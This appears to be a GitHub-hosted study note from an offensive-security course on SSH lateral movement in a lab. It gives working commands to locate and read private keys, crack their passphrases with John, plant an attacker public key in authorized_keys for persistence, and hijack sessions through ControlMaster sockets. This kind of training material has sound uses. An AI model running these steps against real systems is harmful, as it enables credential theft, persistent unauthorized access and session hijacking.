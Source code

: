 ## Lateral Movement with SSH

Some systems permit password authentication to connect to a Linux machine via SSH, many require public key authentication. The public key is stored in the ~/.ssh/authorized_keys 
file of the server the user is connecting to. The private key is typically stored in the ~/.ssh/ directory on the system the user is connecting from.

Private SSH keys are a prime target for an attacker. We can search for it
 
```
find /home/ -name "id_rsa"
```
Once we located the private key file, we need to check if the key is protected with a passphrase by reading the key file
The Proc-Type: 4,ENCRYPTED tell us the key is encrypted with password passphrase.
```
root@linuxvictim:/home/linuxvictim# cat svuser.key
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,351CBB3ECC54B554DD07029E2C377380
```

we can recon user’s ~/.ssh/known_hosts file to find machines that have been connected to recently or check the bash history

```
root@linuxvictim:/home/linuxvictim/.ssh# cat known_hosts
root@linuxvictim:/home/linuxvictim# tail .bash_history
```
Lastly we need to Convert private key to john readable format form ssh2john.py and crack the passphase for the private key using John


```
kali@kali:~$ python /usr/share/john/ssh2john.py svuser.key > svuser.hash
kali@kali:~$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./svuser.hash
```
#### ssh persistence

We can insert our public key into a user's ~/.ssh/authorized_keys file. allowing us to access the machine again
via SSH later on.

Set up keypair on attack vm. The id_rsa for the private key and id_rsa.pub for the public key. We can then cat the
contents of id_rsa.pub and copy it to the clipboard. 
```
kali@kali:~# ssh-keygen
```

On the linuxvictim machine, we can insert the public key into the linuxvictim user’s
authorized_keys file with the following command.

```
linuxvictim@linuxvictim:~$ echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8=
kali@kali" >> /home/linuxvictim/.ssh/authorized_keys
```
Now we can then ssh from our Kali VM using our private key to the linuxvictim machine and log in as
the linuxvictim user without a password

```
kali@kali:~$ ssh -i /id_rsa linuxvictim@linuxvictim
```

#### ssh hijacking with controlmaster
The term SSH hijacking refers to the use of an existing SSH connection to gain access to another machine. ControlMaster is a feature that enables sharing of multiple SSH sessions over a single network connection.

1.We’ll start by logging in to our Linux controller machine as the offsec user, and create the
**~/.ssh/config** file, with the following content:
 
```
Host *
      ControlPath ~/.ssh/controlmaster/%r@%h:%p
      ControlMaster auto
      ControlPersist 10m
```

- ->~/.ssh/controlmaster/ with the name <remoteusername@<targethost>:<port>.
- ControlMaster line identifies that any new connections will attempt to use existing ControlMaster sockets when possible.
- ControlPersist can either be set to “yes” or to a specified time. If it is set to “yes”, the socket stays open indefinitely.
 
 2. We will create the ~/.ssh/controlmaster/ directory and  set the correct permission on the ssh configuration file
 ```
 offsec@controller:~$ chmod 644 ~/.ssh/config
 offsec@controller:~$ mkdir ~/.ssh/controlmaster
 ```
 3.Now the users on controller ssh into another remote host, we can piggyback the connection with the controlmaster.
 ```
 offsec@controller:~$ ssh offsec@linuxvictim
 
 root@controller:~# ssh -S /home/offsec/.ssh/controlmaster/offsec\@linuxvictim\:22 offsec@linuxvictim
 ```
